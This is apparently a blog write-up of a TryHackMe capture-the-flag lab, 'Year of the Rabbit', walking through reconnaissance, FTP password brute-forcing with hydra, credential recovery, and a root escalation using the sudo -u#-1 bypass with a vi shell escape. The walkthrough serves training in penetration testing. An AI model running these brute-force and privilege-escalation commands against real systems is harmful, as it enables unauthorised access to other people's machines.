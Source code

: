 # Year of the Rabbit

***
[](https://tryhackme-images.s3.amazonaws.com/room-icons/c062ef0e0b4f70e51a2dafc5fc2bca0e.jpeg)

## Difficulty = Easy
***

Running our nmap scan we have -:


```bash
# Nmap 7.94 scan initiated Mon Oct 23 04:16:09 2023 as: nmap -p80,22,21 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.184.53
Nmap scan report for 10.10.184.53
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 23 04:16:29 2023 -- 1 IP address (1 host up) scanned in 19.79 seconds
```

We can't login to `FTP` as anonymous user 


![](https://i.imgur.com/Ue9ZHST.png)


Navigating to port `80/HTTP` we have a default Apache2 website



![](https://i.imgur.com/nGondix.png)


- No vital information on `Page-Source`
- status code `404` in both `/sitemap.xml` and `/robots.txt`


Running dir/file bruteforce with `dirseach` we have only the `/assets` page


![](https://i.imgur.com/XT1GnQk.png)


Navigating to the `/assets` the first link truly got us **rick-rolled** 😂

![](https://i.imgur.com/EY5oCOM.png)

The second link, `/assets/style.css`, on the other hand gives us this information


![](https://i.imgur.com/YRKU9Of.png)


Checking `/sup3r_s3cr3t_fl4g.php` refers us to `/sup3r_s3cr3t_fl4g/` and then ask us to turn off **javascript**

![](https://i.imgur.com/EpMMxOe.png)

If you click `Ok` you get **rick-rolled** one more time 😭😂


![](https://i.imgur.com/3cJHyMG.png)

Making a request to `/sup3r_s3cr3t_fl4g/` with `curl` we can see we have a message, No wonder we are being referred 🤔


![](https://i.imgur.com/1W79sJq.png)

Well, start up `burpsuite` and intercept the `/sup3r_s3cr3t_fl4g.php` page then **send to repeater**

![](https://i.imgur.com/7rpCiII.png)


Click `Follow redirection` at the top-bar

![](https://i.imgur.com/KFz9j1T.png)



Nice, looks like this is what they don't want us to see, we are been referred to the page, `/intermediary.php?hidden_directory=/WExYY2Cv-qU`, then from here again to `http://10.10.184.53/sup3r_s3cr3t_fl4g.php`,
where the final **rick-roll** video plays

![](https://i.pinimg.com/originals/5f/d8/ca/5fd8ca9ef493ae16d1896d32a81cd193.gif)

Accessing `/intermediary.php?hidden_directory=/WExYY2Cv-qU` , i decided to use the **hidden_directory** parameter value directly, which is `/WExYY2Cv-qU`, we have an image

![](https://i.imgur.com/My70Hyn.png)

Download the image with the following command

```bash
$ wget http://10.10.184.53/WExYY2Cv-qU/Hot_Babe.png
```


Running the `strings` command on the image and scrolling down gives us this


![](https://i.imgur.com/qxi9ENY.png)


Running this command saves the passwords to a file called `passwd.txt`

```bash
$ strings Hot_Babe.png | tail -n 82 > passwd.txt
```

We can therefore bruteforce the `FTP` protocol with the following syntax using `hydra`

```bash
$ hydra -l ftpuser -P ./passwd.txt ftp://10.10.184.53 -V
```


![](https://i.imgur.com/wZKSAgI.png)

Login in with the username and password, `ftpuser:5iez1wGXKfPKQ` we have **Eli's_Creds.txt**


![](https://i.imgur.com/vNzuslp.png)

Download the file to your base machine with the `mget` command

![](https://i.imgur.com/fgr67EY.png)


Concatenating the `Eli's_Creds.txt` file gave us a brainfuck encoded text


![](https://i.imgur.com/cssdhQY.png)



Converting the brainfuck gave us **Eli's** credential

![](https://i.imgur.com/2AleGT7.png)

Login in via `SSH` we have a message from **root** to user **Gwendoline**


![](https://i.imgur.com/UkcTxv8.png)

running the `locate` command on the keyword **s3cr3t** we have

![](https://i.imgur.com/fRwgNc6.png)



Concatenating it gives us user **gwendoline** password

![](https://i.imgur.com/DFdLYhu.png)

switch user to **gwendoline**

```bash
$ su gwendoline
```

Running `sudo -l`, would i say we don't have permission to run `/usr/bin/vi /home/gwendoline/user.txt` as **root** 😆 


![](https://i.imgur.com/941ycmx.png)

After much lookups, using this payload we where able to view the file


```bash
$  sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

![](https://i.imgur.com/Tb7Whlt.png)

we can therefore get a root shell by adding **semi-colon** (`:`) and then `!/bin/bash`

![](https://i.imgur.com/TVsf3qv.png)

Hell yeah, we are root


![](https://i.imgur.com/mBlybTF.png)

Have a nice day ⛹️‍♂️


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>




